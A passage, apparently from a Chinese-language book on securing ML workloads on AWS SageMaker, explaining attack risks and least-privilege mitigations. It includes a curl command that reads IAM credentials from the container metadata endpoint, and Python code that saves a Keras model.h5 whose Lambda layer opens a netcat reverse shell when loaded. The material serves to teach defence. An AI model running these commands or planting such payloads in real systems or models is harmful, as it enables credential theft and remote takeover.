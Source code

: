 或者，如果您已经设置并使用 **SageMaker Studio** 来代替 workshop，攻击者可以运行以下命令并获得安全凭证:

```py
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

一旦凭证被泄露，攻击者现在就有了各种关于如何使用这些凭证来执行特定攻击的选项。*吓人吧？*如果附加到笔记本实例的 IAM 角色附加了`AdministratorAccess`受管策略，该怎么办？这意味着攻击者将能够使用权限提升攻击获得完全的管理员访问权限！

为了减轻和管理与此类似的场景相关的风险，建议在配置附加到 AWS 资源的 IAM 角色时实践最小特权原则。这意味着我们需要更深入地研究附加到 IAM 角色的策略，并检查哪些权限可以删除或减少。这将限制潜在的损害，即使在特权提升攻击已经执行之后。除此之外，如果您要举办一次 ML 研讨会，您可能希望利用 **SageMaker Studio Lab** 而不是在您的 AWS 帐户中创建笔记本实例供参与者使用。通过这种方法，研讨会参与者可以在不使用 AWS 帐户的情况下运行 ML 训练实验和部署。同时，使用 SageMaker Studio Lab 是免费的，非常适合研讨会！

注意

关于这个话题的更多信息，请查看 https://studiolab.sagemaker.aws/。

## 网络安全

在训练和部署 ML 模型时，ML 工程师可能会意外地使用包含攻击者准备的恶意代码的库或自定义容器映像。例如，攻击者可能会生成一个包含反向 shell 负载的`model.h5`文件:

```py
import tensorflow

from tensorflow.keras.layers import Input, Lambda, Softmax

from tensorflow.keras.models import Model

from tensorflow.keras.optimizers import Adam

def custom_layer(tensor):

    PAYLOAD = 'rm /tmp/FCMHH; mkfifo /tmp/FCMHH; cat /tmp/FCMHH | /bin/sh -i 2>&1 | nc 127.0.0.1 14344 > /tmp/FCMHH'

    __import__('os').system(PAYLOAD)

    return tensor

input_layer = Input(shape=(10), name="input_layer")

lambda_layer = Lambda(

    custom_layer,   

    name="lambda_layer"

)(input_layer)

output_layer = Softmax(name="output_layer")(lambda_layer)

model = Model(input_layer, output_layer, name="model")

model.compile(optimizer=Adam(lr=0.0004), loss="categorical_crossentropy")

model.save("model.h5")
```
